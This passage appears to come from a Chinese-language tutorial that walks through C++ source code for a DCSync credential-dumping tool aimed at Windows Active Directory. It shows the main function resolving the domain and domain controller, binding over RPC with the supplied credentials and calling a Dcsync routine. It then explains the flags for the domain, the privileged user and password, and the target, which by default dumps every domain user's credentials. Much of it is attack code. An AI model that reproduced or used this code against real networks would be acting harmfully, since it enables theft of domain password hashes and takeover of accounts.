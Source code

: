```c++
        --argc;
    }

    if (DomainName == NULL)
    {
        if (GetCurrentDomainName(&DomainName))
        {
            wprintf(L"[+] Got domain name: %s.\n", DomainName);
        }
        else
        {
            wprintf(L"[-] Could not get domain name.\n");
            return -1;
        }
    }

    if (DomainController == NULL)
    {
        if (GetCurrentDomainController(DomainName, &DomainController))
        {
            wprintf(L"[+] Got domain controller name: %s.\n", DomainController);
        }
        else
        {
            wprintf(L"[-] Could not get domain controller.\n");
            return -1;
        }
    }

    if (CreateRpcBinding(NULL, L"ncacn_ip_tcp", DomainController, NULL, DomainName, AuthUser, AuthPass, &hBinding, RpcSecurityCallback))
    {
        Asn1_init();
        if (Dcsync(hBinding, DomainName, DomainController, UserName))
        {
            return 1;
        }
        else
            return -1;
    }
    else
        return -1;
}
```

### 获取命令行参数

主函数首先通过循环从命令行获取以下关键参数：

- -d：指定当前所处域名，如果未指定则自动通过自定义的 GetCurrentDomainName 函数获取域名。
- -u：指定拥有 DCSync 权限的用户名，如果未指定则默认使用当前用户。
- -p：指定用户拥有 DCSync 权限的用户密码，如果未指定则默认使用当前用户凭据。
- -t：指定要转储凭据的目标用户，如果未指定则默认转储所有域用户凭据。
